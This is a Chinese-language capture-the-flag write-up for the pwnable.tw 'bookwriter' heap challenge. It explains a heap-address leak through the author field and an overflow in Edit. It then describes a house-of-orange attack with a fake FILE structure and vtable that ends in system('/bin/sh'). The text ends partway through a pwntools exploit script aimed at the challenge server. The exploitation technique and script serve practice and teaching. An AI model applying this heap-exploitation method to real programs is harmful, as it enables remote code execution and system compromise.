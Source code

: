 Info函数可以修改author的值，最多可以读取0x40大小，而get_input函数没有给末尾强制加'\x00'，在chunk_list有值之后再修改author可以泄露堆地址。

![info](./10.jpg)

![author](./11.jpg)

### 漏洞利用

先利用Edit的溢出漏洞进行house of orange攻击，修改top chunk的size，得到一个Unsorted bin，分配一个large bin,用它泄露堆地址和lib基址(这里其实应该用author那个泄露堆地址，分配large bin的话后面要发送的数据量就太大了)。  
分配8个堆块，从而可以覆写chunk_list[0]，构造fake_file和fake_vtable，因为是根据strlen的结果修改size_list，我们可以发送数据的前面是'\x00'，这样就会让chunk_size_list[0]被改为0，从而可以malloc一个堆块，最后触发system("/bin/sh\x00")拿到shell。  
exp本地可以，远程失败，原因是刚提到的数据量的问题，懒得改了。

### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./bookwriter')
libc_offset = 0x3c4b20
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
if debug:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process('./bookwriter')

else:
    libc = ELF('./libc_64.so.6')
    libc_offset = 0x3c3b20
    p = remote('chall.pwnable.tw',10304)

def Add(size,content):
    p.recvuntil('choice :')
    p.sendline('1')
    p.recvuntil("Size of page :")
    p.sendline(str(size))
    p.recvuntil("Content :")
    p.send(content)

def View(index):
    p.recvuntil('choice :')
    p.sendline('2')
    p.recvuntil("Index of page :")
    p.sendline(str(index))

def Edit(index,content):
    p.recvuntil('choice :')
    p.sendline('3')
    p.recvuntil("Index of page :")
    p.sendline(str(index))
    p.recvuntil("Content:")
    p.send(content)

def exp():
    #leak libc
    p.recvuntil('Author :')
    p.sendline('xmzyshypnc')
    p.recvuntil('choice :')
    p.sendline('1')
    p.recvuntil("Size of page :")
    p.sendline(str(0))#0
```
